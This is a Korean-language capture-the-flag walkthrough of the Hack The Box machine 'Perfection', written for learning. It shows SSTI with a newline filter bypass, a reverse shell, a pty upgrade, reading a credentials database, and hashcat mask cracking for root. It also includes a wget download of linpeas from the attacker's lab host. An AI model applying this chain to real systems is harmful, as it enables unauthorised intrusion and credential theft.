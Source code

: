 # hack the box: perfection
## 사용된 취약점: SSTI
- SSTI(Server Side Template Injection)취약점: 웹 어플리케이션에 적용되어 있는 웹 템플릿 엔진(Web Template Engine)에 공격자의 공격 코드가 템플릿에 포함된 상태에서 서버 측에서 템플릿 인젝션이 발현되는 공격을 의미

- category1=1&grade=50&weight=1…
    - SSTI에 취약함
- burpsuite로 테스트를 진행한다.
    - 입력 값을 넣는 곳에 %0A를 넣고 \` \` 안에 스크립트를 삽입한 후 스크립트 전체를 url인코딩하여 실행한다.
        - %0A=\n(개행문자)
        - 개행 문자를 넣은 이유는 스크립트를 그냥 삽입할 경우 malicious code detected 경고가 나와 필터링을 하고 있는 것을 알아차릴 수 있기 때문에 우회 목적으로 넣음
- 반복적인 코드를 템플릿 문서로 만드는 구조로 되어 있다.
- ${7*7}을 넣어 49가 나오는 것으로 보아 server side에서 script가 실행되는 것을 알 수 있다.
    - hacktricks에서 해당 문서를 참조
    - 언어, 프레임워크마다 명령어 종류가 다양함
- reverseshell generator를 이용하여 코드를 생성
    - burpsuite에 넣고 url encoding을 하여 reverse shell을 얻을 수 있다.
    - category1=Maths%0A` <스크립트 삽입>`

- which 로 프로그램 경로 찾을 수 있음
- python3 -c ‘import pty;pty.spawn(”/bin/bash”)’를 한다.
    - pseudo-terminal interface를 import함
    - 그 후 bash shell을 실행
        - 그 이유
        - 완전한 대화형 셸로 업그레이드 하려는 목적
        - 여러 편의성을 위해서 시도
        - 만약 완전한 상호 작용 기능을 제공할 경우 필요 없음
- user.txt의 플래그 값을 찾을 수 있다.

- sqlite3 pupilpath_credentials.db로 db파일을 읽어 susan의 해시 값을 읽을 수 있다.
    - 전 단계에서 susan이 sudo 그룹에 속한 것 때문에 susan의 해시 값을 크랙한다.
    - 만약 그룹에 속하지 않았다면 다른 사용자를 크랙해야 한다.

- hashcat susan.txt /usr/share/wordlists/rockyou.txt
- 크랙은 되지 않았지만 해시 값의 종류를 sha-256으로 좁힐 수 있다.
- hashcat -m 1400 susan.txt /usr/share/wordlists/rockyou.txt 로 시도
    - -m 1400 :sha-256으로 지정
- linpeas.sh를 실행
    - kali에서 python3 -m http.server 4444로 서버 오픈
    - server 터미널에서 wget http://10.10.14.44:4444/linpeas.sh로 다운로드 시킨다.
    - chmod +x linpeas.sh로 하여 실행
- linpeas 결과 중 mail결과에서 pw format을 찾을 수 있다.
    - {firstname_firstname}_{reversed_random}_{integer between1 and 1billion}
    -                                             1000000000(9자리 수)
        
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d
    - -a 3: brute force mode
    - ?d : 9자리수 무작위 숫자 지정
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d —show로 결과 값 확인
- sudo bash로 크랙 된 pw를 삽입 후 whoami로 root권환을 획득할 수 있다.
## 결론
## SSTI를 이용해서 침투를 수행하고 db파일의 해시값을 통해 크랙하여 pw를 얻을 수 있었다.
## 입력값을 검증하지 않고 명령어를 넣어 실행되는 것을 알 수 있었기에 이를 막아야 보안상의 허점이 줄어든다.

# 보충

- [linpeas.sh](http://linpeas.sh) 기능?
    - linux, macOS에서 권한 상승 가능한 리스트를 나타내는 스크립
